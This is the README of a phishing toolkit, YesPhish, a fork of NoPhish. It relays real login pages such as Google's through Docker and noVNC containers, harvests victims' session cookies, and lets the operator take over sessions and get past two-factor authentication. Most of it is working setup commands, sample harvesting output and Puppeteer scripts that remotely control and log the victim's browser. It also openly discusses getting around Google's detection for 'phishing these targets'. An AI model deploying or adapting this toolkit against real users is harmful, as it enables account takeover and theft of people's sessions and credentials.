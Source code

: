 # YesPhish

This is a fork of [NoPhish](https://github.com/powerseb/NoPhish) (by `powerseb`) with improvements and bugfixes.

## Changes in this fork

* Refactored `setup.sh` to make it more modular & easier to maintain
* Moved files that are mostly static into the Docker images instead of the setup.sh script
* Added the `-x` option to spawn firefox with remote debugging port exposed to the host at address `localhost:9XXX` to allow for the use of browser automation (for example with puppeteer)
* Added the `-l` option to allow the user to choose a language to be set as a custom preference
* Builtin puppeteer scripts to control the target browser & log cookies / navigation information
* Fixed some conditions that caused NoPhish to not load properly sometimes due to processes being spawn before the desktop environment was up
* Set the cookie collector loop to every 5 seconds, which is more realistic than 60
* Colored & cleaner output
* Other miscellaneous bugfixes

## Usage

All existing features of NoPhish [should] work the same way. The following features were added:

### Language

The `-l` option is just a helper to set the preferred languages of the browser.

It can be set to a list of values - as long as it doesn't include spaces.

Example:
```bash
$ ./setup.sh -u 1 -t https://target -d hello.local -l es,ru
```

### Editing Preferences

This was a bit annoying in NoPhish (it required changing 4 places in the code). In YesPhish you can just edit the `templates/user.header.js` with your desired values and rerun `setup.sh`.

### RemoteDebuggingPort

(under testing)

With YesPhish it's possible to control the target browser remotely. Just toggle the `-x` flag:

```bash
$ ./setup.sh -u 1 -t https://target -d hello.local -x true
[...]
[~] Generating configuration file
[+] Configuration file generated
[-] Starting containers
———— vnc-user1 (from image vnc-docker) [1/2] ————
[+] RemoteDebuggingPort: 9001
[...]
———— vnc-muser2 (from image vnc-docker) [1/2] ————
[+] RemoteDebuggingPort: 9002
[...]
```

For each user container, a port between `9001` and `9999` is mapped to the host.

This is the remote debugging port of the browser running in that container, and can be used to connect and control the browser with tools such as [Puppeteer](https://github.com/puppeteer/puppeteer):

```bash
$ npm install puppeteer
```

For example, the `scripts/control.js` file is a Puppeteer script that connects to your browser running in the container and spawns a REPL where you can freely interact with the `browser` object:

```bash
$ node scripts/control.js 9001
[+] Attempting to connect to: ws://127.0.0.1:9001/session
[+] Successfully connected to Firefox!
[+] Use the `browser` object in the JS shell below to control the browser.
> (await browser.pages())[0].url()
'https://www.google.com/'
> (await browser.pages())[0].goto("https://www.yahoo.com")
Promise {
  <pending>,
  [Symbol(async_id_symbol)]: 758,
  [Symbol(trigger_async_id_symbol)]: 751
}
```

Another example is the `scripts/log.js` which can be used to log accessed pages and cookies set during the navigation:

```bash
$ node scripts/log.js 9001
[+] Attempting to connect to: ws://127.0.0.1:9001/session
[+] Successfully connected to Firefox!
[2025-05-09T12:42:18.085Z] [page.request] URL: https://www.google.com/recaptcha/api2/replaceimage?k=6LfwuyUTAAAAAOAmoS0fdqijC2PbbdH4kjq62Y1b
[2025-05-09T12:42:18.334Z] [page.response] URL: https://www.google.com/recaptcha/api2/replaceimage?k=6LfwuyUTAAAAAOAmoS0fdqijC2PbbdH4kjq62Y1b | Status: 200
[2025-05-09T12:42:18.335Z] [page.requestfinished] URL: https://www.google.com/recaptcha/api2/replaceimage?k=6LfwuyUTAAAAAOAmoS0fdqijC2PbbdH4kjq62Y1b
[2025-05-09T12:42:18.342Z] [page.request] URL: https://www.google.com/recaptcha/api2/payload?p=06AFcWeA6uTvj9strt0xT_K_4AOOs7LL7Kxj4aw9tae_XwAZeqCYh1kruqKR9RArdnKSG3oqfiuR85_lJVHL-ymg1z2bMNpIbxRGkbPMNrd7THXtxdXvOIhdNgeEf39sk8BIHY48T3u4147MHeQP4EiDbhaJefheIokoAQZXX70da6yvYLo16tJsSheoIzCBBMf_QI3D3VreXZQIXQageGWkmwStxmTR5y8w&k=6LfwuyUTAAAAAOAmoS0fdqijC2PbbdH4kjq62Y1b&id=1040911e67ca0861
[2025-05-09T12:42:18.499Z] [page.response] URL: https://www.google.com/recaptcha/api2/payload?p=06AFcWeA6uTvj9strt0xT_K_4AOOs7LL7Kxj4aw9tae_XwAZeqCYh1kruqKR9RArdnKSG3oqfiuR85_lJVHL-ymg1z2bMNpIbxRGkbPMNrd7THXtxdXvOIhdNgeEf39sk8BIHY48T3u4147MHeQP4EiDbhaJefheIokoAQZXX70da6yvYLo16tJsSheoIzCBBMf_QI3D3VreXZQIXQageGWkmwStxmTR5y8w&k=6LfwuyUTAAAAAOAmoS0fdqijC2PbbdH4kjq62Y1b&id=1040911e67ca0861 | Status: 200
[2025-05-09T12:42:18.500Z] [page.requestfinished] URL: https://www.google.com/recaptcha/api2/payload?p=06AFcWeA6uTvj9strt0xT_K_4AOOs7LL7Kxj4aw9tae_XwAZeqCYh1kruqKR9RArdnKSG3oqfiuR85_lJVHL-ymg1z2bMNpIbxRGkbPMNrd7THXtxdXvOIhdNgeEf39sk8BIHY48T3u4147MHeQP4EiDbhaJefheIokoAQZXX70da6yvYLo16tJsSheoIzCBBMf_QI3D3VreXZQIXQageGWkmwStxmTR5y8w&k=6LfwuyUTAAAAAOAmoS0fdqijC2PbbdH4kjq62Y1b&id=1040911e67ca0861
```

Besides these samples, the `scripts/biscuits.js` can also be used to log cookies set during the victim's navigation.

> [!IMPORTANT]  
> Be aware that some targets, such as *Google*, use magic tricks to detect when your browser is being controlled by a third-party, and *block the sign-in attempt* before the victim can even enter the password, so this technique won't work for phishing these targets.
> If I knew how these tricks worked by the time I wrote this tool I would have fixed it - there are many open issues in repos related to Puppeteer about this behavior, but none of the answers seemed to work as of 05/2025.
> If you find a solution let me know :-) 

> [!NOTE]  
> If the Puppeteer process exits abruptely but the browser session isn't disconnected properly, the 
> session can be stuck and YesPhish will have to be restarted. This shouldn't happen usually, but it's worth noting.

# NoPhish
 
Another phishing toolkit which provides an docker and noVNC based infrastructure. The whole setup is based on the initial article of [mrd0x](https://mrd0x.com/bypass-2fa-using-novnc/) and [fhlipzero](https://fhlipzero.io/blogs/6_noVNC/noVNC.html).

A detailed description of the setup can be found here - [Another phishing tool](https://powerseb.github.io/posts/Another-phishing-tool/)

## Installation

Ensure that docker is installed and working.

Install the required python modules:

```console
pip install lz4
```

Install the setup (which will create the required docker images):

```console
setup.sh install
```

## Execution

The setup offers the following parameters:

```console
Usage: ./setup.sh -u No. Users -d Domain -t Target
         -u Number of users - please note for every user a container is spawned so don't go crazy
         -d Domain which is used for phishing
         -t Target website which should be displayed for the user
         -e Export format
         -s true / false if ssl is required - if ssl is set crt and key file are needed
         -c Full path to the crt file of the ssl certificate
         -k Full path to the key file of the ssl certificate
         -a Adjust default user agent string
         -z Compress profile to zip - will be ignored if parameter -e is set
         -p Additional URL parameters - if not set generic URL will be generated

```

A basic run looks like the following:

```console
./setup.sh -u 4 -t https://accounts.google.com -d hello.local 
```

During the run the following overview provides a status per URL how many cookies or session informations have been gathered.

```console
...
[-] Starting Loop to collect sessions and cookies from containers
    Every 60 Seconds Cookies and Sessions are exported - Press [CTRL+C] to stop..
For the url http://hello.local/v1/oauth2/authorize?access-token=b6f13b93-1b51-41c4-b8b4-b07932a45bd6 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v2/oauth2/authorize?access-token=fd54dbec-c057-4f46-8657-c0283e5661d9 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v3/oauth2/authorize?access-token=9d606939-b805-4c65-9e98-2624de2cd431 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v4/oauth2/authorize?access-token=84b8d725-7e87-439e-8629-53332092b68f :
-  0  cookies have been collected.
-  5  session cookies have been collected.
```

Please note that the tool will export all cookies / session information even when it is not related to a successfull login.

Further you can also directly interact with the tool on the status page - `http(s)://%DOMAIN%:65534/status.php`. There you have the possability to disconnect the user and directly take over the session. 

In the current version of the tool for every user two containers are spawned - one for desktops and one for mobile devices. Based on the user agent the target gets redirected to suitable container. The output of the mobile container is named with a leading "m" (e.g. mphis1-ffprofile). 

## Using profile export
If you are using the complete FireFox profile export, you can just call firefox with -profile like that:

On Windows:
`& 'C:\Program Files\Mozilla Firefox\firefox.exe' -profile <PathToProfile>\phis1-ffprofile\`

On Linux:
`firefox-esr -profile <PathToProfile>/phis1-ffprofile --allow-downgrade`

Everything is getting restored, including the latest site.

Please note by default you need to extract the zip archive or set the parameter `-z` to `false`. If the export format `-e simple` is chosen two json files will be generated which can be used with Cookiebro which is available for [Firefox](https://addons.mozilla.org/de/firefox/addon/cookiebro/) and [Chrome](https://chrome.google.com/webstore/detail/cookiebro/lpmockibcakojclnfmhchibmdpmollgn).


## CleanUp

During a run the script can be terminated with `ctrl` + `c` - all running docker container will then be deleted. To fully remove the setup run `setup.sh cleanup`.
